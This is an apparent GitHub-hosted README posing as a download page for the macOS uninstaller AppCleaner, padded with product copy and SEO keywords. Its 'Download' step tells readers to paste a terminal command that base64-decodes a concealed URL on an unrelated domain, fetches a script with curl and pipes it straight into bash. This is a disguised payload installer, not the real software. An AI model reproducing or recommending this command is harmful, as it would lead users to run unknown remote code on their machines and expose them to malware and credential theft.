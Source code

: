 # AppCleaner Mac Download - Complete Application Uninstaller  

![AppCleaner Screenshot](https://app-cleaner.com/wp-content/uploads/2024/07/app-cleaner-window.png)  

---  

### 🔽 Download AppCleaner for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is AppCleaner for Mac?  

AppCleaner is an essential macOS utility that provides thorough removal of applications and all their associated files. Unlike the standard drag-to-trash method that often leaves behind numerous support files, AppCleaner performs deep system scans to locate and remove every trace of uninstalled software.  

This lightweight yet powerful tool helps maintain optimal system performance by preventing the accumulation of orphaned files that can consume valuable disk space over time. AppCleaner features a simple drag-and-drop interface that makes uninstalling applications effortless - just drag any app onto the AppCleaner window and it will automatically detect all related files in Library folders, Caches, and Preferences.  

Advanced users will appreciate the Smart Delete feature that allows selective removal of components, while the simple interface makes it accessible for beginners. AppCleaner is particularly useful when testing multiple applications, preparing systems for resale, or simply maintaining a clean and organized Mac.  

The application runs natively on both Intel and Apple Silicon Macs, supports dark mode, and integrates seamlessly with macOS. Regular updates ensure compatibility with the latest versions of MacOS, making AppCleaner a reliable long-term solution for application management.  

![AppCleaner Interface](https://imag.malavida.com/mvimgbig/download-fs/app-cleaner-16599-3.jpg)  

---  

## Key Features & Benefits  

- 🗑️ Complete application removal  
- 🖱️ Intuitive drag-and-drop interface  
- 🔍 Smart scanning for associated files  
- 📂 Preserves system integrity  
- 🚀 Lightweight and fast operation  

Maintain a clean and efficient Mac system with AppCleaner's thorough uninstallation capabilities.  

---  

## 🔍 Keywords  

AppCleaner for Mac, AppCleaner Mac Download, AppCleaner for Mac Download, AppCleaner Mac, AppCleaner Download Mac, AppCleaner Download for Mac, AppCleaner full version, Mac Download AppCleaner, Download Mac AppCleaner, Download AppCleaner Mac, Download AppCleaner for Mac
